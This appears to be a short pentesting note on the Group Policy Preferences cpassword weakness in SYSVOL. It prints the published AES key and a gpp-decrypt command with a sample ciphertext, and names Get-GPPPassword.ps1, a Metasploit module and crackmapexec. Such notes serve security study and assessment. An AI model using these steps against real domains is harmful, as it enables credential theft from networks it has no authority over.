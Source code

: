 -- -
When a new GPP is created, an XML file is created in the SYSVOL share, which is readable by everyone in the domain. It can be used for a multitude of reasons, but of most interest, it holds a `cpassword` field.
`cpassword` is AES-256 encrypted but the AES private key is publicly available [here](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN) or:
```
 4e 99 06 e8  fc b6 6c c9  fa f4 93 10  62 0f fe e8
 f4 96 e8 06  cc 05 79 90  20 9b 09 a4  33 b6 6c 1b
```
### Decryption
Plenty of automation has been made to decrypt the cpassword.
- `gpp-decrypt`
```bash
gpp-decrypt <encrypted str>
gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE
```
- [Get-GPPPassword.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)
- GPP Metasploit Post Module
- [[crackmapexec]]
	![[crackmapexec#^1d481a]]
	
